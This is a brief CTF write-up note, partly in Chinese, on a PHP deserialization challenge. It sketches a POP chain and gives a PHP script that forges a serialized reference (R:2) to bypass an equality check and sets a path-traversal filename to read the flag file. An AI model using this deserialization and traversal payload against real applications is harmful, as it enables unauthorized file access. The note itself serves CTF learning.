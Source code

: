 tags:: [[CTFWEB/PHP/反序列化]]

- # 思路
	- pop
	- 利用指针将nova指向neutron即可
		- ((6478aaed-0cfc-41e3-a12e-55de79af3104))
	- ```
	  acp:: __toString
	  ace:: echo_name
	  	acp -->
	  	if($this->openstack->neutron === $this->openstack->nova)
	  ```
	- ```php
	  $payload = "../../../../../../nssctfasdasdflag";
	  $o3 = new acp();
	  $o3 -> neutron = "";
	  $o3 -> nova = "novaishere";
	  $ser_o3 = serialize($o3);
	  $ser_o3 = str_replace('s:10:"novaishere"', 'R:2;', $ser_o3);
	  $o2 = new ace();
	  $o2 -> docker = $ser_o3;
	  $o2 -> filename = $payload;
	  $o1 = new acp();
	  $o1 -> setcinder($o2);
	  $ser = serialize($o1);
	  var_dump($ser);
	  echo "<br>";
	  echo urlencode($ser);
	  ```